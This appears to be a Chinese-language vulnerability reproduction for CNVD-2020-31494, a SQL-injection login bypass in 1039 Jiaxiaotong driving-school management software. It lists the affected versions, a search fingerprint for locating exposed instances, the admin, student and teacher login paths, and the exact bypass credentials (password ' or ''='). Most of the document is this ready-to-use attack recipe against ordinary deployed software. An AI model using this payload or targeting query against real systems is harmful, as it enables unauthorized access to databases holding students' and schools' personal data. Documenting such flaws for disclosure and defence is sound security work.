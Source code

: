 # 1039家校通 万能密码绕过 CNVD-2020-31494

## 漏洞描述

北京1039科技发展有限公司是一家专注驾校管理系统、驾校移动办公系统、驾校管理软件、驾校招生小程序开发等,为驾校提供无死角的驾校管理系统解决方案。

北京1039科技发展有限公司驾校管理系统存在万能密码绕过漏洞，攻击者可利用该漏洞获取数据库信息。

## 漏洞影响

```
1039家校通 v1.0 - v6.0
```

## 网络测绘

```
title="学员登录_1039家校通"
```

## 漏洞复现

管理员登录接口为

```plain
/admin/Product/Comstye.aspx
/Student/StudentLogin.aspx
/Teacher/Index.aspx
```



![](images/202202101936922.png)



账号密码为如下即可登录

```plain
user:peiqi
pass:' or ''='
```



![](images/202202101936366.png)